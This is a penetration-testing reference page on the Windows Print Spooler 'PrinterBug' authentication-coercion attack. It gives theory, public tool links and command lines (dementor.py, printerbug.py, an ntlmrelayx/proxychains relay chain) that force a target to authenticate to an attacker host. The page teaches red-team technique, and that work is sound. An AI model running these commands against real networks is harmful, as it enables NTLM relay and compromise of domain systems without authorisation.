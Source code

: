 # PrinterBug

## Theory

Microsoft’s Print Spooler is a service handling the print jobs and other various taks srelating to printing. An attacker controlling a domain user/computer can, with an RPC call, trigger the spooler service of a target running it and make it authenticate to a target of the attacker's choosing. This flaw is a "won't fix" and enabled by default on all Windows environments \([more info on the finding](https://fr.slideshare.net/harmj0y/derbycon-the-unintended-risks-of-trusting-active-directory/47)\).

{% hint style="info" %}
The attacker needs a foothold on the domain \(i.e. compromised account\) for this attack to work since the coercition is operated through an RPC call in the SMB `\pipe\spoolss` named pipe through the `IPC$` share.
{% endhint %}

## Practice

Remotely checking if the spooler is available can be done with [SpoolerScanner](https://github.com/vletoux/SpoolerScanner) \(Powershell\) or with [rpcdump](https://github.com/SecureAuthCorp/impacket/blob/master/examples/rpcdump.py) \(Python\).

The spooler service can be triggered with [printerbug](https://github.com/dirkjanm/krbrelayx/blob/master/printerbug.py) \(Python\), [dementor](https://gist.github.com/3xocyte/cfaf8a34f76569a8251bde65fe69dccc) \(Python\), the adapted original .NET code \([here](https://github.com/leechristensen/SpoolSample)\).

{% hint style="info" %}
On a side note, most tools use the MS-RPRN protocol to trigger the Print Spooler. MS-RPRN is Microsoft’s Print System Remote Protocol. It defines the communication of print job processing and print system management between a print client and a print server. 
{% endhint %}

This trigger leads to an outgoing traffic using SMB.

{% tabs %}
{% tab title="dementor" %}
Trigger the spooler service

```bash
dementor.py -d $DOMAIN -u $DOMAIN_USER -p $PASSWORD $ATTACKER_IP $TARGET
```
{% endtab %}

{% tab title="printerbug" %}
Trigger the spooler service

```bash
printerbug.py 'DOMAIN'/'USER':'PASSWORD'@'TARGET' 'ATTACKER HOST'
```
{% endtab %}

{% tab title="rpcdump" %}
Check if the spooler service is available

```bash
rpcdump.py $TARGET | grep -A 6 "spoolsv"
```
{% endtab %}

{% tab title="SpoolerScanner" %}
Check if the spooler service is available

```text

```
{% endtab %}
{% endtabs %}

{% hint style="info" %}
In the situation where the tester doesn't have any credentials, it is still possible to [relay an authentication](../lm-and-ntlm/relay.md) and trigger the spooler service of a target via a SOCKS proxy
{% endhint %}

```bash
ntlmrelayx.py -t smb://$TARGET -socks
proxychains dementor.py -d $DOMAIN -u $DOMAIN_USER $ATTACKER_IP $TARGET
```

## Resources

{% embed url="https://www.harmj0y.net/blog/redteaming/not-a-security-boundary-breaking-forest-trusts/" %}



